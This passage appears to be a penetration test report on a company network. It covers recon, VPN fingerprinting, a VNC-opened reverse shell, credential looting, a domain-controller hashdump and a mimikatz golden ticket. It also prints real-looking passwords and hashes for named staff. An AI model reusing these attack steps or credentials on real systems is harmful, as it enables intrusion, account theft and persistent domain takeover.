 3  lo0.bras1.cbr1.on.ii.net (150.101.32.170)  16.176 ms  16.551 ms  15.733 ms
 4  ae8.cr1.cbr1.on.ii.net (150.101.40.222)  21.093 ms  16.430 ms  15.822 ms
 5  ae1.cr1.mel8.on.ii.net (150.101.33.25)  23.675 ms  23.168 ms  23.666 ms
 6  as58511.vic.ix.asn.au (218.100.78.35)  24.197 ms  26.740 ms  23.718 ms
 7  vl8.cor1.m1.au.as58511.net (103.30.216.148)  25.598 ms  25.002 ms  23.952 ms
 8  lag11.bdr1.m1.au.as58511.net (103.30.216.147)  24.336 ms  28.961 ms  23.339 ms
 9  * * *

...snip...

MacBook-Pro:test_data gee$ traceroute 103.55.76.23
traceroute to 103.55.76.23 (103.55.76.23), 64 hops max, 52 byte packets
 1  192.168.1.1 (192.168.1.1)  1.577 ms  2.364 ms  2.530 ms
 2  192.168.2.1 (192.168.2.1)  1.912 ms  4.376 ms  12.130 ms
 3  lo0.bras1.cbr1.on.ii.net (150.101.32.170)  15.943 ms  17.563 ms  30.141 ms
 4  ae8.cr1.cbr1.on.ii.net (150.101.40.222)  15.957 ms  16.716 ms  15.776 ms
 5  ae1.cr1.mel8.on.ii.net (150.101.33.25)  24.523 ms  24.635 ms  23.541 ms
 6  as58511.vic.ix.asn.au (218.100.78.35)  23.441 ms  25.746 ms  23.591 ms
 7  vl8.cor1.m1.au.as58511.net (103.30.216.148)  40.867 ms  23.713 ms  25.842 ms
 8  lag11.bdr1.m1.au.as58511.net (103.30.216.147)  26.900 ms  33.725 ms  40.028 ms
 9  7001038-4.as58511.net (43.225.32.146)  25.025 ms  23.079 ms  23.504 ms
10  * * *
```

### Fingerprint FTP

Fingerprinting each of the FTP services below failed with the remote server closing the connection without sending any data:

  * 103.55.76.16
  * 103.55.76.17
  * 103.55.76.18
  * 103.55.76.19
  * 103.55.76.20
  * 103.55.76.21
  * 103.55.76.22
  * 103.55.76.23
  * 103.55.76.98

```bash
MacBook-Pro:test_data gee$ ftp 103.55.76.16
Connected to 103.55.76.16.


421 Service not available, remote server has closed connection
ftp>
```

### Check encryption strength of CINDY production servers.

The CINDY servers at 103.74.184.248 and 103.55.76.23 were checked for encryption strength over HTTPS using Nessus and Qualys SSL Server Test. The scans identified several points of interest

* The services support 3DES, which has 112-bit key-space and is considered weak by today's standards.
* They are vulnerable to the SWEET32 attack, which requires capturing an active session with approximately 785GB of data.
* The certificates were presented out of order. However, errors were not displayed when testing with Firefox, Chrome and Safari.

None of these is considered to have a practical impact on security.

### Test VPN Server

Ike-scan was used to test the IPSec settings.

```bash
MacBook-Pro:test_data gee$ sudo ike-scan -M --showbackoff 103.55.76.98 >> ike.scan.103.55.76.98.log
Password:
MacBook-Pro:test_data gee$ cat ike.scan.103.55.76.98.log 
Starting ike-scan 1.9 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
103.55.76.98	Main Mode Handshake returned
	HDR=(CKY-R=0f01931726a98d1d)
	SA=(Enc=3DES Hash=SHA1 Auth=PSK Group=2:modp1024 LifeType=Seconds LifeDuration(4)=0x00007080)
	VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

IKE Backoff Patterns:

IP Address	No.	Recv time		Delta Time
103.55.76.98	1	1509322431.183015	0.000000
103.55.76.98	2	1509322441.186165	10.003150
103.55.76.98	3	1509322451.199489	10.013324
103.55.76.98	4	1509322461.211525	10.012036
103.55.76.98	5	1509322471.225030	10.013505
103.55.76.98	6	1509322481.237275	10.012245
103.55.76.98	Implementation guess: Cisco IOS 12.1, 12.2 or 12.3 / Watchguard Firebox / Gnat Box

Ending ike-scan 1.9: 1 hosts scanned in 110.178 seconds (0.01 hosts/sec).  1 returned handshake; 0 returned notify
```

Aggressive mode was not supported:

```
MacBook-Pro:test_data gee$ sudo ike-scan --pskcrack --aggressive --id=peer 103.55.76.98 >> ike.scan.103.55.76.98.log
MacBook-Pro:test_data gee$ tail -n 3 ike.scan.103.55.76.98.log 
Starting ike-scan 1.9 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)

Ending ike-scan 1.9: 1 hosts scanned in 2.447 seconds (0.41 hosts/sec).  0 returned handshake; 0 returned notify
```

Running the Nessus L2TP detection script did not allow for further fingerprinting of the service.

```bash
MacBook-Pro:plugins gee$ /Library/Nessus/run/bin/nasl -t 103.55.76.98 l2tp_detection.nasl
l2tp_detection.nasl: Success
```



### Review exploits against CISCO VPN

A check on exploitdb reveals the following exploits that could be applicable:

```bash
MacBook-Pro:vpn_exploits gee$ searchsploit cisco | grep -i ios | grep 12 | grep remote
Cisco Catalyst 2960 IOS 12.2(55)SE1 - 'ROCEM' Remote Code Execution                | hardware/remote/42122.py
Cisco Catalyst 2960 IOS 12.2(55)SE11 - 'ROCEM' Remote Code Execution               | hardware/remote/41872.py
Cisco IOS 11.x/12.0 - ILMI SNMP Community String                                   | hardware/remote/20652.txt
Cisco IOS 11.x/12.x - HTTP %% Exploit                                              | hardware/remote/19882.pl
Cisco IOS 11.x/12.x - HTTP Configuration Arbitrary Administrative Access (1)       | hardware/remote/20975.pl
Cisco IOS 11.x/12.x - HTTP Configuration Arbitrary Administrative Access (2)       | hardware/remote/20976.c
Cisco IOS 11.x/12.x - HTTP Configuration Arbitrary Administrative Access (3)       | hardware/remote/20977.pl
Cisco IOS 11.x/12.x - HTTP Configuration Arbitrary Administrative Access (4)       | hardware/remote/20978.pl
Cisco IOS 11/12 - OSPF Neighbor Buffer Overflow                                    | hardware/remote/22271.c
Cisco IOS 12.0.2 - Syslog Crash                                                    | hardware/remote/19531.txt
Cisco IOS 12.3 - 'LPD' Remote Buffer Overflow                                      | hardware/remote/30652.txt
Cisco IOS 12.3(18) - FTP Server Remote Exploit (Attached to GDB)                   | hardware/remote/6155.c
Cisco IOS 12.4(23) - HTTP Server Multiple Cross-Site Scripting Vulnerabilities     | hardware/remote/32776.txt
Cisco IOS 12.x - HTTP Server Multiple Cross-Site Scripting Vulnerabilities         | hardware/remote/32723.txt
Cisco IOS 12.x/11.x - HTTP Remote Integer Overflow                                 | hardware/remote/77.c
```

The tester checked each in turn for applicability:

* hardware/remote/42122.py: N/A - requires telnet
* hardware/remote/41872.py: N/A - requires telnet
* hardware/remote/20652.txt: N/A - requires SNMP
* hardware/remote/19882.pl: N/A - requires Telnet, SSH or HTTP Admin Interface
* hardware/remote/20975.pl: N/A - requires HTTP
* hardware/remote/20976.c: N/A - requires HTTP
* hardware/remote/20977.pl: N/A - requires HTTP
* hardware/remote/20978.pl: N/A - requires HTTP
* hardware/remote/22271.c: not performed as exploit may cause a denial of service and requires testing in a lab environment which was not available
* hardware/remote/19531.txt: N/A - requires syslog
* hardware/remote/30652.txt: N/A - requires access to LPD and the ability to set the hostname
* hardware/remote/6155.c: N/A - exploit requires customisation and testing in a lab environment
* hardware/remote/32776.txt: N/A - requires HTTP
* hardware/remote/32723.txt: N/A - requires HTTP
* hardware/remote/77.c: N/A - requires HTTP


## Penetration test of internal network

Having demonstrated code execution in the CINDY application and that one CINDY instance was hosted in the Melbourne office, the tester performed an internal network penetration test connecting to the network via a VPN supplied by BTB.

### Initial recon

A DNS server was set as part of the connection at 10.3.1.21, the testers laptop was assigned an IP of 10.3.72.248.

### Perform scan against 10.3.1.0/24

The tester guessed that the domain controller was hosted on a 24 bit subnet, and performed a corresponding ping sweep followed by a network scan of active hosts. Several servers were discovered (full scan results have been included in the test data accompanying this report):

* 10.3.1.21 - Domain controller
* 10.3.1.22 - b2b-web1
  * Web service includes comments that point to directory I3Root. 
  * Load page and it looks like some sort of chat client. 
  * Title is "Interaction Web Tools"
  * connect to RDP, login screen is for win2012r2
* 10.3.1.23 - Ubiquity networks WiFi controller
  * Web service on 8080 redirects to 8443, UniFi device
  * default creds (root/ubnt, ubnt/ubnt) don't work
  * reports version 5.4.18 in login page
  * Runs OpenSSH 6.6.1
  * Apache Tomcat/Coyote JSP engine 1.1
* 10.3.1.24 - CINDY application server
  * A request for https://10.3.1.24/cortel-admin/ showed the CINDY login page
  * Request to webpage on 8080 self identifies as rancher
    * Comments in source say version is 1.5.9
    * Default creds of rancher/ and rancher/rancher don't work
    * Server header is Jetty(9.2.11.v20150529)
  * 9091 returns a blank page
* 10.3.1.28 - Database server
  * FileZilla Server 0.9.59 beta on port 21
  * MySQL 5.6.31-log on 3306
  * The server exposes SMB services which reports as Windows 98, but the result could not be verified
* 10.3.1.200
  * All ports filtered/closed except 22
  * OpenSSH 6.6.1 on 22
  * No further information available

### Perform broader network sweeps

The tester performed broader ping sweeps the follow networks in the search for more hosts:

* 10.1.0.0/16
* 10.2.0.0/16
* 10.3.0.0/16
* 10.4.0.0/16
* 10.5.0.0/16

After active hosts were identified, network scans were run aginst them to fingerprint services and a general purpose label attached to the subnet:

* 10.3.0.0/16:
  * 10.3.1.0/24 looks like servers related to office support: domain controller, wireless, etc.
  * 10.3.11.0/24 looks like more office services
    * 10.3.11.1 looks like a huawei switch
    * NAS at 10.3.11.5
    * rasberry PI at 10.3.11.11-18. They expose the same services and have the same SSH keys.
  * 10.3.64.1 looks like a huawei switch
  * 10.3.65.0/24 looks like workstations
  * 10.3.66.0/24 looks like phones
  * 10.3.71.1 looks like a huawei switch
  * 10.3.72.0/24 looks like a VPN network
    * 10.3.72.248 was the testers own laptop
    * 10.3.72.250 - Win7 SP1 MANAGEMENTPC.connectivityit.com.au: the client confirmed this server was out of scope.
  * 10.3.200.0/24 looks like core networking kit
    * palo alto firewall on 10.3.200.200
    * mikrotik on 10.3.300.253
  * 10.3.255.1/24 looks like network perimeter
    * found mikrotik and windows IIS server named MEL049GWP025
* 10.2.0.0/16: Several hosts were discovered at 10.2.200.0/24 and 10.2.255.1, but further fingerprinting was not performed.
* Other subnets did not return any active hosts.

### Test Raspberry PI devices

The scans across 10.3.11.0/24 indicated no auth on VNC services for a number of hosts. The tester connected to each server using VNC-Viewer and were presented with a browser running in full-screen mode. 


He exited full screen mode, opened a new terminal window, elevated privileges with sudo, and setup a reverse shell with the command:

```bash
bash -i &> /dev/tcp/10.3.72.248/8081 0>&1
```

The tester restored the browser window so as not to arouse suspicions and continued to explore the first device via the reverse shell. Upon repeating the process for another server they noticed it had the same same password for the "pi" account, but it was a different server. /etc/issue identified the OS as "Raspbian GNU/Linux 8 \n \l", which has a default password of pi/raspberry. Testing the credentials against SSH worked for the servers 10.3.11.11, 10.3.11.12, 10.3.11.13, 10.3.11.14, 10.3.11.16, 10.3.11.17, and 10.3.11.18.

The tester started to pillage data on each server:

* 10.3.11.11:
  * Passwords in startup scripts:
    * shaun@b2bwholesale.com.au/Hjb0f97rXEYN
    * graham@btbaustralia.com.au/j655dx266
  * Interesting URLs from browser history:
    * http://192.168.0.101:8088/IRIS/stats.html
    * http://192.168.0.101:8088/IRIS/cs-stats.html
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC passwords:
    * Decrypted Bin Pass= 'j655dx2'
    * Decrypted Hex Pass= '6a36353564783200'
* 10.3.11.12:
  * Passwords:
    * graham@btbaustralia.com.au/it18P8ln
    * graham@btbaustralia.com.au/j655dx266
    * shaun@b2bwholesale.com.au/Hjb0f97rXEYN
  * Interesting URLs from browser history:
    * https://login.salesforce.com/?un=graham@btbaustralia.com.au&pw=it18P8ln|‪Error - https://login.salesforce.com/?un=graham@btbaustralia.com.au&pw=it18P8ln|1495691859|736474
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC passwords:
    * Decrypted Bin Pass= 'j655dx2'
    * Decrypted Hex Pass= '6a36353564783200'
* 10.3.11.13:
  * No new information
* 10.3.11.14:
  * No new passwords
  * No interesting browser history
  * Cookies from browser:
    * Salesforce
    * Linkedin
    * pubmatic.com
    * login.newrelic.com
    * twitter.com
    * newrelic.com
  * VNC password are same as other boxes
* 10.3.11.16:
  * No new passwords
  * No interesting browser history
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC password are same as other boxes
* 10.3.11.17:
  * No new passwords
  * Interesting URLs from browser history:
    * cacti.conit.com.au
    * http://192.168.0.101:8088/jenkins/?auto_refresh=true
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC password are same as other boxes
* 10.3.11.18
  * No new passwords
  * No interesting browser history
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC password are same as other boxes

### Pivot onto developer machine

The tester tried to reuse the credentials discovered against the developer box btb-dev (10.3.65.122). Access was granted via SSH using the credential pair graham/j655dx2 and elevation of privileges via sudo was successful. Pillaging from box the tester found a variety of useful information:

* The wireless password for the Melbourne office:

```
wpa_passphrase B2BOffice W238sjbz95Bw
```

* Password hashes for a number of different user accounts:

```
git:$6$CKZwBvIO$ZtYTavPWmNNktkX5Yy7aLg765zN2snU5PypoRL4mFmcjVt/JlKsEiBA4XzOnWMmNbVE7cpc8b4oLqnZQ1rnRk/:17455:0:99999:7:::
radjiv:$6$ur4uzvtb$aHi1bYAMUQ0FJv9ofH3tyFuGW09QiAdTGbJu1Xqo8u0uUCEY7l6jcoe3BUCXqjus4WqePlmIZJSUEDAvpmNap.:17455:0:99999:7:::
sephen:$6$jYwiZmxY$yNJZ9e/VfJkJD50TZPhLXtzg0hiTVcQiYDVUTYxhYyRD9AGreSroQ4WxzN5WnS1p8z4rH5kGwdMMOK3N8UOGi.:17455:0:99999:7:::
```

* Cleartext credentials for office 365:

cat  /etc/gitlab/gitlab.rb
...
gitlab_rails['smtp_enable'] = true
gitlab_rails['smtp_address'] = "smtp.office365.com"
gitlab_rails['smtp_port'] = 25
gitlab_rails['smtp_user_name'] = "graham@btbaustralia.com.au"
gitlab_rails['smtp_password'] = "it18P8ln"
gitlab_rails['smtp_domain'] = "btbaustralia.com.au"
gitlab_rails['smtp_authentication'] = "login"
gitlab_rails['smtp_enable_starttls_auto'] = true
gitlab_rails['smtp_tls'] = false
...

* Using the looted credentials the tester was able to logon to office 365 as Graham Corrigan.



### Pivot onto NAS server and achieve domain administrator privileges

Continuing to look around the environment, the tester was able to determine the naming scheme for the btb domain was "{firstname}{lastinitial}" by accessing the NAS server via RDP, where Graham's account was listed on the login screen. Attempting to log in to the server with grahamc/j655dx2 was successful.



The tester noted that they had administrative privileges on the NAS server. Checking the sever groups and memberships, the only users with administrative prilileges were the local administrator account and domain administrators. The tester logged onto the domain controller with the stolen credentials and confirmed they were a member of the domain administrators group.



### Achieve domain dominance

Using meterpreter, the tester dumped the password hashes for the domain and created a golden ticket with a lifetime of 10 years so they could maintain dominance of the domain for the forseeable future.

```
msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                      Connection
  --  ----                   -----------                      ----------
  1   meterpreter x86/win32  B2B\grahamc @ NAS                10.3.72.248:4444 -> 10.3.11.5:56358 (10.3.11.5)
  2   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ B2B-DC-M1  10.3.72.248:4444 -> 10.3.1.21:51974 (10.3.1.21)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 3748 created.
Channel 7 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\grahamc>whoami /user
whoami /user

USER INFORMATION
----------------

User Name   SID                                           
=========== ==============================================
b2b\grahamc S-1-5-21-1381631214-1986580073-1137387850-1173

C:\Users\grahamc>exit
exit
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > run post/windows/gather/smart_hashdump 

[*] Running module against B2B-DC-M1
[*] Hashes will be saved to the database if one is connected.
[*] Hashes will be saved in loot in JtR password file format to:
[*] /Users/gee/.msf4/loot/20171106170906_default_10.3.1.21_windows.hashes_208765.txt
[+] 	This host is a Domain Controller!
[*] Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:64fcc6af15ea6a56542e4a27928a729d
[+] 	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:24fb62b8c40db1187cdf00531733be7b
[+] 	SachinP:1106:aad3b435b51404eeaad3b435b51404ee:3a35b696f3fde69c9c59848fa95d7f1b
[+] 	BrendonB:1107:aad3b435b51404eeaad3b435b51404ee:3b9dd24c020f9e37508c2d3ce8b4fe91
[+] 	CINDY:1108:aad3b435b51404eeaad3b435b51404ee:808b904500c319bebb1d1ff636e12702

... snip ...

meterpreter > use kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.0 alpha (x86/win32) release "Kiwi en C"
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Ported to Metasploit by OJ Reeves `TheColonial` * * */


[!] Loaded x86 Kiwi on an x64 architecture.
success.

meterpreter > golden_ticket_create -u administrator -d btb -k 64fcc6af15ea6a56542e4a27928a729d -s S-1-5-21-1381631214-1986580073-1137387850 -t btb_golden_ticket.tk
[+] Golden Kerberos ticket written to btb_golden_ticket.tk
```
